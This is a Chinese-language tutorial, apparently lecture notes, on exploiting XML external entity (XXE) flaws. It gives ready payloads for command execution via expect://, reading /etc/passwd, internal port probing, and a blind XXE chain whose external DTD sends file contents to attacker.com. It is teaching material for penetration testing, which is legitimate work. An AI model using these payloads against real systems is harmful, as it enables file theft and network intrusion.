


# 网络安全：P21：XXE利用



## 概述
在本节课中，我们将学习XML外部实体注入攻击。我们将从回顾PHP环境下的命令执行开始，深入探讨参数实体的声明与引用，并重点讲解有回显和无回显两种场景下的XXE漏洞利用方法，包括本地文件读取、内网主机探测等。

---

## PHP环境下的命令执行补充

上一节我们介绍了XXE的基本概念，本节中我们来看看在特定环境下如何执行系统命令。

当目标服务器安装并加载了PHP的`expect`扩展时，可以通过XXE执行系统命令。其利用方式是在外部实体声明中，使用`expect`协议。

**核心语法如下：**
```xml
<!ENTITY xxe SYSTEM "expect://id">
```
在XML文档中引用此外部实体`&xxe;`，如果命令执行成功，将会回显当前用户的`uid`信息。

---

## 参数实体的声明与引用

理解了普通实体后，本节我们来看看参数实体。参数实体主要用于DTD内部，其声明和引用方式与普通实体有所不同。

参数实体分为内部声明和外部声明。

**内部参数实体声明语法：**
```
<!ENTITY % 实体名称 "实体值">
```

**外部参数实体声明语法：**
```
<!ENTITY % 实体名称 SYSTEM "URI">
```
与普通实体相比，参数实体在名称前多了一个百分号`%`。

**参数实体引用语法：**
```
%实体名称;
```
**重要限制：** 参数实体**只能在DTD中**被引用，**不能**在XML文档内容中直接引用。

以下是普通实体与参数实体的对比示例：
```xml
<!ENTITY normal "hello">                    <!-- 内部普通实体 -->
<!ENTITY lol SYSTEM "file:///c:/win.ini">   <!-- 外部普通实体 -->
<!ENTITY % para "word">                     <!-- 内部参数实体 -->
<!ENTITY % dtd SYSTEM "http://localhost:9999/evil.dtd"> <!-- 外部参数实体 -->
```

---

## 利用参数实体读取含特殊字符的文件

在Java等解析器中，直接读取包含`<`、`&`等特殊字符的文件会报错。我们曾尝试用`CDATA`包裹内容，但遇到了“内部实体与外部实体不能结合使用”的限制。

**解决方案是使用参数实体和外部DTD文件。**

**错误示例（直接拼接会失败）：**
```xml
<!ENTITY % start "<![CDATA[">
<!ENTITY % file SYSTEM "file:///d:/test.txt">
<!ENTITY % end "]]>">
<!ENTITY all "%start;%file;%end;">
```
上述写法会报错：参数实体引用不能出现在DTD的内部子集标记内。

**正确利用步骤：**
1.  **将参数实体的拼接逻辑放在一个外部的DTD文件（`evil.dtd`）中。**
    ```xml
    <!-- evil.dtd 内容 -->
    <!ENTITY % start "<![CDATA[">
    <!ENTITY % file SYSTEM "file:///d:/test.txt">
    <!ENTITY % end "]]>">
    <!ENTITY all "%start;%file;%end;">
    ```
2.  在攻击的XML中，先引用外部DTD文件，再引用其中定义的实体。
    ```xml
    <!DOCTYPE foo [
        <!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
        %dtd;
    ]>
    <foo>&all;</foo>
    ```
**流程解析：**
1.  `%dtd;` 引用了外部`evil.dtd`，该文件执行后，在内存中定义了 `%start;`、`%file;`、`%end;` 以及拼接后的 `all` 实体。
2.  随后，在XML文档内容中引用 `&all;`，成功将文件内容包裹在`CDATA`段中输出。

---

## XXE漏洞简介与发现

上一节我们解决了文件读取的技术问题，本节我们来系统了解XXE漏洞。

**XXE（XML External Entity）**：XML外部实体注入攻击。当应用程序解析用户输入的XML时，未禁止加载外部实体，导致攻击者可以读取敏感文件、探测内网等。

**漏洞产生原因**：XML解析器在解析DTD时，支持引用外部实体，并且支持多种协议（如`file`、`http`、`ftp`、`expect`、`php`过滤器等）。

**漏洞发现流程：**
1.  **寻找XML输入点**：尝试修改HTTP请求的`Content-Type`为`application/xml`，或将JSON数据改为XML格式提交。
2.  **测试XML解析**：提交简单XML数据，观察是否被解析。
3.  **测试外部实体引用**：尝试引用一个外部实体（如指向自己服务器的URL），观察服务器是否发起请求。

**探测Payload示例：**
```xml
<?xml version="1.0"?>
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "http://your-vps-ip/">
]>
<test>&xxe;</test>
```
如果在你的服务器日志中看到来自目标服务器的访问记录，则证明存在XXE漏洞。

---

## XXE漏洞利用：有回显场景

确认漏洞存在后，本节我们学习在有回显情况下的利用方式。

**1. 本地文件读取：**
*   **直接读取：** `<!ENTITY xxe SYSTEM "file:///etc/passwd">`
*   **PHP过滤器读取：** `<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">` (读取后需Base64解码)
*   **支持列目录：** 某些解析器支持`file:///etc/`这样的格式，直接列出目录内容。

**2. 内网主机/端口探测：**
利用XXE发起HTTP请求，根据响应时间或内容判断内网主机和端口状态。
```xml
<!DOCTYPE test [
    <!ENTITY xxe SYSTEM "http://192.168.1.1:80/">
]>
<test>&xxe;</test>
```
可以将IP地址或端口号设置为变量，使用Burp Suite的Intruder模块进行爆破扫描。

---

## XXE漏洞利用：无回显（Blind XXE）场景

大多数情况下，服务器不会直接输出解析结果。本节我们学习如何通过外带数据通道提取信息。

**利用思路：**
1.  定义一个参数实体，通过`file`协议读取目标文件。
2.  定义另一个参数实体，其值是一个指向攻击者服务器的HTTP请求，并将文件内容作为请求参数的一部分。
3.  由于**同级参数实体不会被解析**，需要将它们嵌套定义在不同层级的实体中。
4.  由于**参数实体引用不能出现在内部DTD子集**，需要将嵌套的实体定义放在**外部的DTD文件**中。

**经典Blind XXE利用链：**

**攻击者服务器上的 evil.dtd：**
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
%exfil;
```
**解释：**
*   `%file;` 读取文件。
*   `%eval;` 定义了一个动态的实体 `%exfil;`，其值是一个HTTP请求，URL中包含 `%file;` 的内容。
*   由于 `%eval;` 和 `%file;` 不同级，且整个DTD是外部引用，因此可以成功解析。

**发送给目标的Payload：**
```xml
<!DOCTYPE foo [
<!ENTITY % dtd SYSTEM "http://attacker.com/evil.dtd">
%dtd;
]>
<foo></foo>
```
**结果：** 目标服务器解析XML时，会加载外部DTD，执行其中的逻辑，最终向`http://attacker.com`发起一个携带文件内容的GET请求。



---

## 总结
本节课我们一起学习了XXE漏洞的利用。
1.  我们回顾了在PHP特定环境下通过`expect`扩展执行命令的方法。
2.  我们深入理解了参数实体的声明、引用规则及其与普通实体的区别。
3.  我们掌握了利用参数实体和外部DTD解决读取含特殊字符文件的技术难点。
4.  我们系统学习了XXE漏洞的原理、发现方法。
5.  我们详细探讨了有回显场景下的文件读取和内网探测。
6.  我们重点攻克了无回显（Blind XXE）场景下的利用技巧，通过嵌套参数实体和外部DTD将数据外带出来。

理解并掌握这些从基础到进阶的利用方式，对于进行深入的渗透测试至关重要。